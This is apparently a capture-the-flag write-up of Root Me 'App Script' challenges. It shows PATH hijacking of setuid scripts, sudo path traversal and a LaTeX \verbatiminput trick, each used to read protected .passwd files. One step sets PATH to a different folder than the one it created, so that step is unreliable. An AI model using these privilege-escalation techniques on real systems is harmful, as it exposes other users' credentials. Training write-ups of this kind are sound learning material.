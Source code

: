 ```yaml
---
title: Root Me | App Script
author: Zeropio
date: 2022-01-25
categories: [Challenges, RootMe]
tags: [rootme, appscript, veryeasy]
permalink: /challenges/rootme/app-script/very-easy
---
```


# Bash - System 1
We need to copy cat into our folder, then change the name to "ls" and change the path to that folder.
Now the script will read it as cat.
```console
$ mkdir /tmp/zeropio
$ cp /bin/cat /tmp/zeropio
$ mv /tmp/zeropio/cat /tmp/zeropio/ls
$ export PATH=/tmp/zeropio:$PATH
$ ./ch11
```

# Sudo - weak configuration
We need to see all the sudo options (with -l). Then we can see we need to use the cracked user, who can only do a cat to ./notes/ .
```console
$ sudo -l
$ sudo -u app-script-ch1-cracked cat /challenge/app-script/ch1/notes/../ch1cracked/.passwd
```

# Bash - System 2
As we did in the first, we need to use nano instead of cat because the script have the options -al.
```console
$ mkdir /tmp/zeropio
$ cp /bin/nano /tmp/zeropio
$ mv /tmp/zeropio/nano /tmp/zeropio/ls
$ export PATH=/tmp/zeropio2:$PATH
$ ./ch12
```

# LaTex Input
We will create a **main.tex** file with the following content:
```console
\documentclass{article}
\usepackage{verbatim}

\begin{document}
\verbatiminput{/challenge/app-script/ch23/.passwd}
\end{document}
```

We will generate a **main.pdf** file:
```console
$ ./setuid-wrapper /tmp/main.tex
```

Then we will just get the pdf:
```console
 $ scp -P 2222 app-script-ch23@challenge02.root-me.org:/tmp/tmp.pIzF7UG6do/main.pdf .
```
